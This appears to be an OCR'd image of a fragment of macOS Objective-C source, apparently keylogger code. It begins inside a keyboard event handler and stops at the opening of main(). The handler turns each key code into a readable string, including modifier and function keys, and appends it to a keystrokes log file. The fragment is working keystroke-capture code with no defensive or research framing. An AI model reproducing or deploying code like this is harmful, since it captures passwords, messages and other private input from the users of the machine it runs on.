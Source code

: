 ```objectivec
NSString *keyString = nil;
// First, handle special non-printable keys
switch (keyCode) {
case kVK_Return: keyString = @"<Return>"; break;
case kVK_Tab: keyString = @"<Tab>"; break;
case kVK_Space: keyString = @"<Space>"; break;
case kVK_Delete: keyString = @"<Delete>"; break;
case kVK_Escape: keyString = @"<Escape>"; break;
case kVK_Command: keyString = @"<Command>"; break;
case kVK_Shift: keyString = @"<Shift>"; break;
case kVK_CapsLock: keyString = @"<CapsLock>"; break;
case kVK_Option: keyString = @"<Option>"; break;
case kVK_Control: keyString = @"<Control>"; break;
case kVK_RightControl: keyString = @"<Control>"; break;
case kVK_RightShift: keyString = @"<Shift>"; break;
case kVK_RightOption: keyString = @"<Option>"; break;
case kVK_Function: keyString = @"<Function>"; break;
case kVK_F1: keyString = @"<F1>"; break;
case kVK_F2: keyString = @"<F2>"; break;
case kVK_F3: keyString = @"<F3>"; break;
// Add more cases here for other non-printable keys...
default: break; // Not a special non-printable key
}

// If it's not a special key, try to translate it
if (!keyString) {
UniCharCount maxStringLength = 4;
UniCharCount actualStringLength = 0;
UniChar unicodeString[maxStringLength];

TISInputSourceRef currentKeyboard = TISCopyCurrentKeyboardInputSource();
CFDataRef layoutData = TISGetInputSourceProperty(currentKeyboard, kTISPropertyUnicodeKeyLayoutData);
const UCKeyboardLayout *keyboardLayout = (const UCKeyboardLayout *)CFDataGetBytePtr(layoutData);

UInt32 deadKeyState = 0;
OSStatus status = UCKeyTranslate(keyboardLayout,
keyCode,
kUCKeyActionDown,
0,
LMGetKbdType(),
kUCKeyTranslateNoDeadKeysBit,
&deadKeyState,
maxStringLength,
&actualStringLength,
unicodeString);
CFRelease(currentKeyboard);

if (status == noErr && actualStringLength > 0) {
keyString = [NSString stringWithCharacters:unicodeString length:actualStringLength];
} else {
keyString = [NSString stringWithFormat:@"<KeyCode: %d>", keyCode];
}
}

NSString *logString = [NSString stringWithFormat:@"%@\n", keyString];
AppendStringToFile(logString, kKeystrokesLogPath);
}
return event;
}

int main() {
@autoreleasepool {
```